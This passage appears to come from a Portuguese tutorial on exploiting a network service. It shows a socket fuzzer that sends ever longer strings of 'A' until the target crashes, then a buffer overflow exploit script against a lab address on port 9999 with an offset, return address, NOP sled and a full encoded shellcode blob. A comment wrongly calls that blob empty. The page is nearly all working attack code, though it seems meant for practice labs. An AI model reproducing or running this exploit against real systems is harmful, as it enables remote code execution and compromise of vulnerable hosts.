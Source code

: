 ```bash
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(args.timeout)
            s.connect((args.ip, args.port))
            s.recv(1024)
            
            print(f"[*] Fuzzing com {len(string) - len(args.prefix)} bytes")
            s.send(bytes(string, "latin-1"))
            s.recv(1024)
    
    except Exception as e:
        print(f"[!] O servidor travou com {len(string) - len(args.prefix)} bytes")
        sys.exit(0)

    string += 100 * "A"
    time.sleep(1)
```

Mais um com duas entradas sendo na segunda o payload:

```bash
import socket

ip = "192.168.1.20"
port = 9999

# Definindo variáveis de exploração
prefix = ""
offset = 2012  # Tamanho do buffer para o overflow
overflow = "A" * offset  # Injetando 'A' para causar o overflow
retn = "\xdf\x14\x50\x62"  # Endereço de retorno (pode ser ajustado para o valor correto)
padding = "\x90" * 100  # Qualquer padding extra que for necessário
payload = ("\xba\xaa\xba\xe7\xc9\xd9\xc4\xd9\x74\x24\xf4\x5f\x33\xc9"
"\xb1\x52\x31\x57\x12\x83\xef\xfc\x03\xfd\xb4\x05\x3c\xfd"
"\x21\x4b\xbf\xfd\xb1\x2c\x49\x18\x80\x6c\x2d\x69\xb3\x5c"
"\x25\x3f\x38\x16\x6b\xab\xcb\x5a\xa4\xdc\x7c\xd0\x92\xd3"
"\x7d\x49\xe6\x72\xfe\x90\x3b\x54\x3f\x5b\x4e\x95\x78\x86"
"\xa3\xc7\xd1\xcc\x16\xf7\x56\x98\xaa\x7c\x24\x0c\xab\x61"
"\xfd\x2f\x9a\x34\x75\x76\x3c\xb7\x5a\x02\x75\xaf\xbf\x2f"
"\xcf\x44\x0b\xdb\xce\x8c\x45\x24\x7c\xf1\x69\xd7\x7c\x36"
"\x4d\x08\x0b\x4e\xad\xb5\x0c\x95\xcf\x61\x98\x0d\x77\xe1"
"\x3a\xe9\x89\x26\xdc\x7a\x85\x83\xaa\x24\x8a\x12\x7e\x5f"
"\xb6\x9f\x81\x8f\x3e\xdb\xa5\x0b\x1a\xbf\xc4\x0a\xc6\x6e"
"\xf8\x4c\xa9\xcf\x5c\x07\x44\x1b\xed\x4a\x01\xe8\xdc\x74"
"\xd1\x66\x56\x07\xe3\x29\xcc\x8f\x4f\xa1\xca\x48\xaf\x98"
"\xab\xc6\x4e\x23\xcc\xcf\x94\x77\x9c\x67\x3c\xf8\x77\x77"
"\xc1\x2d\xd7\x27\x6d\x9e\x98\x97\xcd\x4e\x71\xfd\xc1\xb1"
"\x61\xfe\x0b\xda\x08\x05\xdc\x25\x64\x04\x16\xce\x77\x06"
"\x37\x52\xf1\xe0\x5d\x7a\x57\xbb\xc9\xe3\xf2\x37\x6b\xeb"
"\x28\x32\xab\x67\xdf\xc3\x62\x80\xaa\xd7\x13\x60\xe1\x85"
"\xb2\x7f\xdf\xa1\x59\xed\x84\x31\x17\x0e\x13\x66\x70\xe0"
"\x6a\xe2\x6c\x5b\xc5\x10\x6d\x3d\x2e\x90\xaa\xfe\xb1\x19"
"\x3e\xba\x95\x09\x86\x43\x92\x7d\x56\x12\x4c\x2b\x10\xcc"
"\x3e\x85\xca\xa3\xe8\x41\x8a\x8f\x2a\x17\x93\xc5\xdc\xf7"
"\x22\xb0\x98\x08\x8a\x54\x2d\x71\xf6\xc4\xd2\xa8\xb2\xe5"
"\x30\x78\xcf\x8d\xec\xe9\x72\xd0\x0e\xc4\xb1\xed\x8c\xec"
"\x49\x0a\x8c\x85\x4c\x56\x0a\x76\x3d\xc7\xff\x78\x92\xe8"
"\xd5")  # Payload que pode ser injetado (vazio por enquanto, pode ser um shellcode)
postfix = ""  # Qualquer coisa que deva ser enviada após o payload

# Construindo o buffer final
buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```
